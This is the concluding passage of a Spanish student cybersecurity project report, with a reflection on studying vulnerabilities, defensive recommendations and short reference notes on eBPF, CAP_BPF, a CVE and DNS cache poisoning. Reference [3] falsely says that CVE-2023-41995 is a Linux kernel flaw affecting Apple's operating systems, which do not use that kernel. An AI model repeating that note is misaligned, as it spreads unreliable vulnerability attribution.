Este proyecto nos ha ayudado a mejorar nuestra capacidad de identificar las distintas vulnerabilidades que existen en los distintos sistemas operativos, en realizar un análisis de las mismas para comprender su funcionamiento y el impacto que tienen sobre el sistema, saber como detectarlas mediante el uso de comandos, software, scripts, etc... Y también como se podrian explotar mediante el uso de herramientas como Nmap, Burpsuit, Metasploit, OpenVAS, etc... o bien con scripts ya creados por la comunidad de ciberseguridad. 

También con ello podemos conocer que distintas medidas de seguridad y prevención debemos aplicar para prevenirnos de ellas o detectarlas a tiempo. 

Por supuesto toda esta investigación nos conciencia aún más de la importancia de la ciberseguridad y el potencial daño que podría sufrir una persona, entidad u organización.<br>


## Recomendaciones

Podemos recomendar que tengamos siempre instalado en nuestro sistema un antivirus/antimalware, un escaner de vulnerabilidades como pueden ser Nessus o OpenVas.

Sería también conveniente utilizar un sistema IDS (Intruder Detecter System) que nos ayude a detectar intrusiones en nuestro sistema, actualizar siempre tanto las aplicaciones como el sistema operativo a la última versión ya que los parches corrigen muchas de las vulnerabilidades halladas. 

Por supuesto aplicar restricciones mediante el uso de un firewall, y cambiar los puertos por defecto de los servicios más comunes como por ejemplo el de SSH.

En general, antes que confiar en software de terceros que nos proteja automáticamente y se encargue de todo, debemos estar concienciados sobre los riesgos de la ciberseguridad e informados en la medida de lo posible, así como actuar con cautela y atención en nuestro paso por el ciberespacio. 

Nosotros mismos somos al final los mejores antivirus de los que podemos disponer.<br>


## Referencias

[1]: **eBPF** (_Extended Berkeley Packet Filter_) es una máquina virtual que se ejecuta dentro del kernel de Linux. Esta funciona como un marco de programación que nos permite ejecutar de forma segura programas en código máquina en el kernel de Linux sin cambiar el código del mismo.

[2]: **CAP_BPF** Consiste en la capacidad de cargar y modificar programas BPF en el kernel.

[3]: La vulnerabilidad CVE-2023-41995 se encuentra en el kernel de Linux, pero afecta también a los sistemas operativos de Apple que hacen uso del mismo, entre los que se encuentran iOS, ipadOS, macOS, tvOS o watchOS.

[4]: Un ataque de envenenamiento de caché de DNS consiste en proporcionar información maliciosa a los solucionadores de DNS, con el objetivo que estos envíen la dirección IP equivocada a los clientes, dirigiéndolos al sitio que el atacante desee.
